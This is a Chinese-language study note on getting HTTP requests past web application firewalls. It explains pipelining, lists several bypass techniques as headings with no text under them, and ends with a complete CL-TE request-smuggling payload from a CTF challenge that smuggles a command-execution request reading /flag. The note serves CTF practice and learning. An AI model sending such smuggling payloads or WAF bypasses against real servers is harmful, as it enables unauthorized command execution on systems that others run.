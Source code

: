 # pipline 隧道传输绕过
## 原理
HTTP 协议是由 TCP 协议封装而来，当浏览器发起一个 HTTP 请求时，浏览器先和服务器建立起连接 TCP 连接，然后发送 HTTP 数据包（即我们用burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，Apache 等 WEB 容器根据这个字段决定是保持该 TCP 连接或是断开。当发送的内容太大，超过一个 HTTP 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 HTTP 请求所建立的 TCP 连接不断开，直到所发送内容结束 Connection 为 close 为止。
## 操作
- 关闭 burp 中 Repeater 模块的 Content-Length 自动更新
- 将下一份数据包直接加在上一份参数的后面
![](attachment/Pasted%20image%2020230225213026.png)
# chunked分块绕过
# Content-Type协议未覆盖绕过
# Content-Type协议未覆盖绕过+chunked分块绕过组合技
# 协议未覆盖绕过进阶技——fliename 混淆伪装绕过
# filename混淆绕过
# ATS HTTP走私

用CL-TE的方法走私

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理`Content-Length`这一请求头，而后端服务器会遵守`RFC2616`的规定，忽略掉`Content-Length`，处理`Transfer-Encoding`
这一请求头

```
POST / HTTP/1.1
Host: e4550371bc.showhub.d3ctf.io
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8e7cipookibqvk2c3govosvfms
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 660
Transfer-Encoding: chunked

0

POST /WebConsole/exec HTTP/1.1
Host: e4550371bc.showhub.d3ctf.io
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer:  http://ec057b43d9.showhub.d3ctf.io/WebConsole/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8e7cipookibqvk2c3govosvfms
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

cmd=cat+/flag&a=
```
[(70条消息) 基于HTTP协议特性绕过WAF的技巧_Tr0e的博客-CSDN博客_http 402包装绕过waf](https://blog.csdn.net/weixin_39190897/article/details/113097805)